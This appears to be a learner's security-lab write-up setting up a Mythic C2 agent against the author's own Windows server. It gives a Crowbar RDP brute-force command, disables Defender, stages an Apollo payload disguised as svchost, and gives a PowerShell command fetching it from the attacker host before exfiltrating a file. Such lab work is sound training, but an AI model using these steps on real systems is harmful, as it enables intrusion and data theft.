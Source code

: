 # Day 21: Mythic Agent Setup
## Objective
In this section, I will learn how to perform a brute force attack, generate a Mythic agent, and establish C2 (command & control).

## Steps
Firstly, if you can remember, we're going to extract passwords from a file on our Windows server called "passwords.txt." This is for demonstration purposes which is why it's referred to as a "fake" file in the attack diagram. Nonetheless, this will serve as data we will try to exfiltrate from the machine.

This time around, instead of going into the console via Vultr, I'm just going to RDP into the machine. I have no clue why I couldn't figure this out sooner, but here we are! I've learned a lot from this challenge, that's for sure.

<p align="center"><img src="https://i.imgur.com/WugLTVP.png"></p>
<p align="center"><i>Ref 1: Using RDP to connect to our Windows machine to create a file called "passwords.txt" that will serve as our target for the brute force attack we're going to perform!</i></p>
<br>

We're done with the Windows instance for now. Let's go to our Kali machine and start looking at the resources we have on hand.

Kali Linux comes with password dictionaries. We can find them using these commands:

<p align="center"><img src="https://i.imgur.com/mFWVBOH.png"></p>
<p align="center"><i>Ref 2: Preinsalled password dictionaries on Kali.</i></p>
<br>

We're going to be using `rockyou.txt`. As a proof of concept, I'm going to put my Windows machine's password into this text file. I know it's cheating, but since the purpose of this challenge is to learn how to brute force machines and how such attacks work, this is fine for now. As a note, I'm only going to use the top 50 passwords since the actual file is quite large. I used `head -50 rockyou.txt > /home/dsuyu/dsuyu-wordlist.txt` to save those top 50 (+ my Windows password) into the wordlist we'll use for the attack.

We'll be using Crowbar to perform an RDP brute force attack over to our Windows machine. To do this, I used the `crowbar -b rdp -u Administrator -C dsuyu-wordlist.txt -s 155.138.242.206/32` command. `-b` specifies the RDP service, `-u` is the user account, `-C` is the source of our passwords that we want to try to authenticate with, and `-s` specifies the specific IP address I want to use. `/32` means we're only interested in this specific IP address. I won't show the password for now, since somebody seeing the password while I'm still trying to complete the challenge would be problematic, to say the least.

<p align="center"><img src="https://i.imgur.com/M9g2wgK.png"></p>
<p align="center"><i>Ref 3: Crowbar successfully brute-forced the machine.</i></p>
<br>

Now that we have our credentials, we can RDP from our Kali machine by using `xfreerdp`. Running the command `xfreerdp /u:Administrator /p:[password] /v:155.138.242.206:3389`, we can RDP into the machine.

<p align="center"><img src="https://i.imgur.com/8iFtNp0.png"></p>
<p align="center"><i>Ref 4: I've successfully RDP'd into the machine!</i></p>
<br>

Looking at our attack diagram, once we've established a connection, the next step is to do some recon. For example, we can run the command `net user Administrator` to learn more about our privileges. In a real scenario, an attack might compromise an account, say, for example, "Steven," and they would have to run a command like `net user` to figure out what privileges they have or to what group they belong to. 

Once we've done reconnaissance, we can move to Phase 3: Defense Evasion. I'll turn off Windows Defender via the command line. We could also do this the BORING way by going into Settings and turning everything off.

<p align="center"><img src="https://i.imgur.com/ulBvkwF.png"></p>
<p align="center"><i>Ref 5: Disabling real-time monitoring from the command line.</i></p>
<br>

After Phase 3 follows Phase 4: Execution. In Phase 4, we need to create our Mythic agent and payloads. Any configuration needs to be done within the Mythic CLI.

We're going to be using the Apollo agent for our purposes. We can install it using the command `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`. You can find Apollo's documentation [here](https://github.com/MythicAgents/Apollo).

<p align="center"><img src="https://i.imgur.com/MDsXRQa.png"></p>
<p align="center"><i>Ref 6: Apollo now appears within our web GUI under "C2 profiles and payload types."</i></p>
<br>

Now, we can install a C2 profile. What is a C2 profile? A C2 profile provides a way to get messages off the wire and forward them to the Mythic server. In our case, we'll use the HTTP profile.

<p align="center"><img src="https://i.imgur.com/9FGS1kR.png"></p>
<p align="center"><i>Ref 7: Our HTTP C2 profile has been installed.</i></p>
<br>

Now how do we create a payload? Easy, just select the hazard icon at the top and make a new payload. We want the C2 profile to call back to our Mythic server, so we'll modify the callback host to be `http://207.148.3.13`.

<p align="center"><img src="https://i.imgur.com/Wr5zoYm.png"></p>
<p align="center"><i>Ref 8: Configuring our C2 profile.</i></p>
<br>

Now that we've made the payload and it's ready to download, we'll grab that download link and use `wget` to download it to our server.

<p align="center"><img src="https://i.imgur.com/CXR5uKH.png"></p>
<p align="center"><i>Ref 9: I've downloaded the payload onto our Mythic server, and I've renamed it so it looks less conspicuous.</i></p>
<br>

Cool! I made a directory called `1` and moved our new executable into there. Then, I started an HTTP server using Python with the `python3 -m http.server 9999` command on our Mythic server. Now that we're running that HTTP server, we can download the payload executable onto the compromised Windows server from our HTTP server by running `Invoke-WebRequest -Uri http://207.148.3.13:9999/svchost-dsuyu.exe -OutFile "C:\Users\Public\Downloads\svchost-dsuyu.exe"` from Windows PowerShell via our RDP connection to the Windows server.

<p align="center"><img src="https://i.imgur.com/VvBCRh3.png"></p>
<p align="center"><i>Ref 10: Downloading the payload onto our Windows server so we can establish a command and control connection.</i></p>
<br>

In other words, the command downloads the executable from our remote Mythic server. Executing the file means we're now receiving callbacks from our agent to our Mythic server. Effectively, the Windows machine is totally pwned and it's all over from here. Now, using our web GUI, we can run commands such as `ifconfig`, `whoami`, and most importantly, `download`. We're going to download that `passwords.txt` file we made earlier.

<p align="center"><img src="https://i.imgur.com/fZKlLww.png"></p>
<p align="center"><i>Ref 11: Within our C2 profile configuration, I enabled a few commands that we'd be able to run once we started receiving callbacks. Here, I'm running those commands.</i></p>
<br>

Notably, there were a few ports we had to open to make this all work out. For example, we had to open port 80 on our Mythic server so that the two servers could actually communicate over HTTP. I also allowed port 9999 on our Mythic server. Like before, we have to make firewall rules not only for the Vultr firewalls but also for our server firewalls.

## Summary
In this section, I conducted my own brute force attack using Kali Linux and Crowbar, RDP'd into the compromised Windows server, and installed my Mythic agent along with a Mythic server. Using the Mythic server, I was able to run an HTTP server using Python so that I could install the payload from within my Windows server. Once the payload was installed and running, I could use the Mythic web GUI to run commands. I established a command and control connection thanks to the Apollo agent and HTTP C2 profile.



